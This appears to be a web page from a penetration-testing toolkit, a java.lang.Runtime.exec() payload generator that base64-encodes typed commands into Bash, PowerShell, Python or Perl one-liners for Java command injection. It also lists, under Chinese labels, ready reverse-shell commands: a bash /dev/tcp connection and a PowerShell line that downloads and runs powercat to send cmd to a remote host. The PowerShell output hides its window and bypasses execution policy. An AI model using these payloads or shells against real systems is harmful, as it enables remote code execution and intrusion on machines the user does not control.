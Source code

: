 ```yaml
---
layout: page
title: Shell
---
```

<!DOCTYPE html>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>java.lang.Runtime.exec() Payload</title>
</head>
<body>
<h1>java.lang.Runtime.exec() Payload</h1>
<input type="radio" id="bash" name="option" value="bash" onclick="processInput();" checked=""><label for="bash">Bash</label>
<input type="radio" id="powershell" name="option" value="powershell" onclick="processInput();"><label for="powershell">PowerShell</label>
<input type="radio" id="python" name="option" value="python" onclick="processInput();"><label for="python">Python</label>
<input type="radio" id="perl" name="option" value="perl" onclick="processInput();"><label for="perl">Perl</label><p></p>
<p><textarea rows="10" style="width: 100%; box-sizing: border-box;" id="input" placeholder="Type input here..."></textarea>
<textarea rows="5" style="width: 100%; box-sizing: border-box;" id="output" onclick="this.focus(); this.select();" readonly=""></textarea></p>
<script>
  var taInput = document.querySelector('textarea#input');
  var taOutput = document.querySelector('textarea#output');
    function processInput() {
        var option = document.querySelector('input[name="option"]:checked').value;
            switch (option) {
              case 'bash':
                taInput.placeholder = 'Type Bash here...'
                taOutput.value = 'bash -c {echo,' + btoa(taInput.value) + '}|{base64,-d}|{bash,-i}';
                break;
              case 'powershell':
                taInput.placeholder = 'Type PowerShell here...'
                poshInput = ''
                for (var i = 0; i < taInput.value.length; i++) { poshInput += taInput.value[i] + unescape("%00"); }
                taOutput.value = 'powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ' + btoa(poshInput);
                break;
              case 'python':
                taInput.placeholder = 'Type Python here...'
                taOutput.value = "python -c exec('" + btoa(taInput.value) + "'.decode('base64'))";
                break;
              case 'perl':
                taInput.placeholder = 'Type Perl here...'
                taOutput.value = "perl -MMIME::Base64 -e eval(decode_base64('" + btoa(taInput.value) + "'))";
                break;
              default:
                taOutput.value = ''
            }
        if (!taInput.value) taOutput.value = '';
    }
taInput.addEventListener('input', processInput, false);
</script>

<b>Bash反弹命令：</b>
<p style="color:red;">bash -i &gt;&amp; /dev/tcp/IP/端口 0&gt;&amp;1</p>
<br>
<b>PowerShell反弹命令：</b>
<p style="color:red;">powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c IP -p 端口 -e cmd</p>
<br>
</body>
</html>

